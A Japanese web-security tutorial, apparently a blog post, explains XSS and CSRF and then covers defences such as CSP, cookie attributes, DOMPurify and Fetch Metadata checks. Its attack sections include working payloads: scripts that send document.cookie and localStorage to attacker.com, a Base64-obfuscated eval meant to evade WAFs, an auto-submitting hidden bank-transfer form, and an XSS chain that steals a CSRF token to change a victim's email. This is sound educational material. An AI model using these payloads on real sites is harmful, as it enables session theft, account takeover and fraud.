



:::message alert
**重要な法的注意事項**

本記事で紹介する技術は、セキュリティ教育および自身が管理するシステムでの脆弱性診断を目的としたものです。**許可なく他者のシステムに対してこれらの技術を使用することは、不正アクセス禁止法等の法律に違反し、刑事罰の対象となります。**

- 必ず事前に書面による許可を得てください
- 自身が所有・管理するシステム、または許可されたテスト環境でのみ使用してください
- 本記事の内容を悪用した場合、筆者は一切の責任を負いません
  :::

## 1. XSS（Cross-Site Scripting）

### 1.1 XSSとは

XSS（Cross-Site Scripting）は、Webアプリケーションに悪意のあるスクリプトを注入し、他のユーザーのブラウザ上で実行させる攻撃手法です。攻撃者は、ユーザーがサイトを信頼していることを悪用します。

### 1.2 XSSの3つのタイプ



| タイプ            | 保存場所 | 攻撃者の介入       | 典型的な発生箇所           |
| ----------------- | -------- | ------------------ | -------------------------- |
| **Stored XSS**    | サーバー | 不要（永続化）     | コメント欄、プロフィール   |
| **Reflected XSS** | なし     | リンククリック必要 | 検索結果、エラーメッセージ |
| **DOM-based XSS** | なし     | 状況による         | innerHTML、document.write  |

### 1.3 攻撃例：Cookie詐取

#### 基本的な攻撃コード

最もシンプルなCookie詐取手法は、画像要素を利用する方法です。

```javascript
// 攻撃者サーバーへCookieを送信
<script>
  var img = new Image(); img.src = "https://attacker.com/steal?c=" +
  encodeURIComponent(document.cookie);
</script>
```

ワンライナー版（imgタグのonerrorを利用）：

```html

```

#### 高度な攻撃：fetch APIの利用

```javascript
<script>
fetch('https://attacker.com/logger', {
  method: 'POST',
  mode: 'no-cors',
  body: JSON.stringify({
    url: window.location.href,
    cookies: document.cookie,
    localStorage: JSON.stringify(localStorage)
  })
});
</script>
```

#### WAF回避のための難読化

```javascript
// Base64エンコード
<script>eval(atob('ZmV0Y2goJ2h0dHBzOi8vYXR0YWNrZXIuY29tLz9jPScgKyBkb2N1bWVudC5jb29raWUp'))</script>

// HTMLエンティティエンコード
&#x3C;script&#x3E;alert(document.cookie)&#x3C;/script&#x3E;

// 括弧を使わないバイパス

```

#### 脆弱性例

主要なJavaScriptフレームワークでも、XSS脆弱性が発見され続けています。

| フレームワーク | CVE            | CVSS | 概要                           |
| -------------- | -------------- | ---- | ------------------------------ |
| React 19       | CVE-2025-55182 | 10.0 | Server ComponentsでのRCE脆弱性 |
| Angular        | CVE-2025-66412 | 8.5  | SVG/MathML属性でのStored XSS   |

**危険なコードパターン例：**

```jsx
// React - 危険
<div dangerouslySetInnerHTML={{__html: userInput}} />

// Vue - 危険
<div v-html="userInput"></div>

// Angular - 危険
this.sanitizer.bypassSecurityTrustHtml(userInput)
```

## 2. CSRF（Cross-Site Request Forgery）

### 2.1 CSRFとは

CSRF（Cross-Site Request Forgery）は、ユーザーが意図しない操作を、ユーザーの権限で実行させる攻撃です。サイトがブラウザを信頼していることを悪用します。

#### CSRF攻撃の成立条件

1. **状態変更を行うHTTPリクエストが存在** - パスワード変更、送金など
2. **Cookieのみでユーザー認証** - セッションCookieだけで判定
3. **リクエストパラメータが予測可能** - 攻撃者がパラメータを推測できる

#### 攻撃の流れ



### 2.2 攻撃例

#### GETリクエストを利用した攻撃

```html
<!-- 画像読み込みだけでリクエスト送信 -->

```

#### POSTリクエストの自動送信

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>おめでとうございます！当選しました！</h1>

    <!-- 隠しフォーム -->
    <form
      id="csrf"
      action="https://bank.com/transfer"
      method="POST"
      style="display:none;"
    >
      <input type="hidden" name="to" value="attacker" />
      <input type="hidden" name="amount" value="100000" />
    </form>

    <script>
      document.getElementById("csrf").submit();
    </script>
  </body>
</html>
```

#### JSON APIへの攻撃

```html
<form
  action="https://api.example.com/user/update"
  method="POST"
  enctype="text/plain"
>
  <input
    type="text"
    name='{"email":"attacker@evil.com","ignore":"'
    value='"}'
  />
  <input type="submit" />
</form>
<!-- 送信されるボディ: {"email":"attacker@evil.com","ignore":"="} -->
```

## 3. XSSとCSRFの関係

### 3.1 比較表

| 項目                       | XSS                    | CSRF             |
| -------------------------- | ---------------------- | ---------------- |
| **データ操作**             | 読み取り・書き込み可能 | 書き込みのみ     |
| **認証セッション**         | 不要（あればより危険） | 必須             |
| **悪意あるコード実行場所** | ターゲットサイト自体   | 攻撃者サイト     |
| **影響範囲**               | 非常に広い             | 状態変更操作のみ |
| **危険度**                 | より高い               | 高い             |

### 3.2 チェイン攻撃：XSSでCSRF防御をバイパス

**重要な原則：XSSはすべてのCSRF対策を無効化できます**（OWASP公式見解）



#### 実装例

```javascript
// ステップ1: CSRFトークンを含むページを取得
var req = new XMLHttpRequest();
req.onload = function () {
  // ステップ2: トークンを正規表現で抽出
  var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];

  // ステップ3: 抽出したトークンで攻撃リクエスト送信
  var attackReq = new XMLHttpRequest();
  attackReq.open("POST", "/account/change-email", true);
  attackReq.setRequestHeader(
    "Content-Type",
    "application/x-www-form-urlencoded",
  );
  attackReq.send("csrf=" + token + "&email=attacker@evil.com");
};
req.open("GET", "/my-account", true);
req.send();
```

このように、XSSが存在すると、CSRFトークンによる防御は完全に無意味になります。

## 4. 防御策

### 4.1 XSS対策

#### 優先順位付き対策

| 優先度 | 対策                        | 説明                              |
| ------ | --------------------------- | --------------------------------- |
| 1      | **出力エンコーディング**    | コンテキスト別にエスケープ        |
| 2      | **フレームワーク保護機能**  | React/Vue/Angularの自動エスケープ |
| 3      | **HTMLサニタイズ**          | DOMPurifyでユーザー入力を浄化     |
| 4      | **Trusted Types API**       | DOM XSS防止の新標準               |
| 5      | **Content Security Policy** | nonce/hashベースのスクリプト制御  |
| 6      | **HttpOnly Cookie**         | Cookie窃取の軽減                  |

#### CSP設定例

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'nonce-{RANDOM}' 'strict-dynamic';
  style-src 'self' 'unsafe-inline';
  object-src 'none';
  base-uri 'none';
  require-trusted-types-for 'script';
  trusted-types dompurify default;
```

#### Cookie属性の推奨設定

```http
Set-Cookie: __Host-SID=<token>; Path=/; Secure; HttpOnly; SameSite=Strict
```

**Cookie属性の意味：**

- `__Host-` プレフィックス: Domain指定禁止、Path属性の「/」指定必須、Secure属性付与必須
- `Secure`: HTTPS接続時のみ送信
- `HttpOnly`: JavaScriptからアクセス不可
- `SameSite=Strict`: クロスサイトリクエストで送信しない

### 4.2 CSRF対策

#### Synchronizer Token Pattern

```html
<form action="/transfer" method="POST">
  <input
    type="hidden"
    name="csrf_token"
    value="OWY4NmQwODE4ODRjN2Q2NTlhMmZlYWEw..."
  />
  <input type="text" name="amount" />
  <button type="submit">送金</button>
</form>
```

#### フレームワーク別実装

**Django（デフォルト有効）：**

```python
<form method="post">
    
    <!-- フォーム内容 -->
</form>
```

**Rails（デフォルト有効）：**

```ruby
class ApplicationController < ActionController::Base
  protect_from_forgery with: :exception
end
```

#### `SameSite=Lax`でも攻撃が成功するケース

- Cookie発行から2分以内のPOSTリクエスト
- GETメソッドで状態変更を行う脆弱な設計
- サブドメイン間の攻撃（`evil.example.com` → `bank.example.com`）

### 4.3 Reactでの実装

Reactアプリケーションでは、フレームワークの自動保護機能を理解した上で、適切な追加対策を実施する必要があります。

#### 4.3.1 React の XSS 対策

**基本：JSXの自動エスケープを活用**

```jsx
// React が自動エスケープ
function UserProfile({ userName }) {
  return <div>{userName}</div>;
}
```

**dangerouslySetInnerHTML を使う場合は必ずサニタイズ**

```jsx
import DOMPurify from "dompurify";
import { useMemo } from "react";

function SafeHTML({ html }) {
  const sanitized = useMemo(
    () =>
      DOMPurify.sanitize(html, {
        ALLOWED_TAGS: ["p", "b", "i", "em", "strong", "a"],
        ALLOWED_ATTR: ["href", "target", "rel"],
      }),
    [html],
  );

  return <div dangerouslySetInnerHTML={{ __html: sanitized }} />;
}
```

**URLの検証**

```jsx
import { useMemo } from "react";

function SafeLink({ url, children }) {
  const safeUrl = useMemo(() => {
    try {
      const parsed = new URL(url);
      return ["http:", "https:"].includes(parsed.protocol) ? url : "#";
    } catch {
      return "#";
    }
  }, [url]);

  return <a href={safeUrl}>{children}</a>;
}
```

#### 4.3.2 React の CSRF 対策

**Fetch Metadata ヘッダーによる防御（サーバー側）**

```javascript
// Express.js での実装
app.use((req, res, next) => {
  if (["GET", "HEAD", "OPTIONS"].includes(req.method)) return next();

  const secFetchSite = req.headers["sec-fetch-site"];
  if (
    secFetchSite &&
    !["same-origin", "same-site", "none"].includes(secFetchSite)
  ) {
    return res.status(403).json({ error: "Cross-site request blocked" });
  }
  next();
});
```

**Double Submit Cookie パターン（axios）**

```javascript
import axios from "axios";

const api = axios.create({
  baseURL: "https://api.example.com",
  withCredentials: true, // Cookie を送信
  xsrfCookieName: "XSRF-TOKEN",
  xsrfHeaderName: "X-XSRF-TOKEN",
});
```

### 4.4 多層防御の重要性

**なぜ多層防御が必要か：**

- CSRFトークンだけでは、XSSで窃取される
- SameSite Cookieだけでは、同一サイト内のXSSで無効化される
- HttpOnlyだけでは、Cookieの読み取りは防げてもリクエスト送信は防げない

すべての対策を組み合わせることで、一つの防御が破られても他の防御が機能します。

## 5. まとめ

#### XSS対策チェックリスト

- [x] ユーザー入力を出力する際、コンテキストに応じたエスケープを実施
- [x] `innerHTML`、`v-html`、`dangerouslySetInnerHTML` の使用箇所を特定・最小化
- [x] DOMPurifyでHTMLサニタイズを実装
- [x] Strict CSP（nonce-based）を導入
- [x] セッションCookieに`HttpOnly`属性を設定
- [x] フレームワークの最新バージョンを使用（脆弱性パッチ適用）

#### CSRF対策チェックリスト

- [x] フレームワークのCSRF保護機能を有効化
- [x] Fetch Metadata ヘッダー検証を実装
- [x] 状態変更操作にGETメソッドを使用しない
- [x] `SameSite=Lax`以上を明示的に設定
- [x] 重要操作（パスワード変更、送金）には再認証を要求
- [x] Origin/Refererヘッダーの検証を追加
- [x] クロスオリジンリクエストを適切に制限

**参考：**

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [MDN Web Docs - Web Security](https://developer.mozilla.org/en-US/docs/Web/Security)

:::message
セキュリティは攻撃と防御の両面を理解することで向上します。本記事で学んだ知識を、より安全なシステム構築に活かしてください。
:::
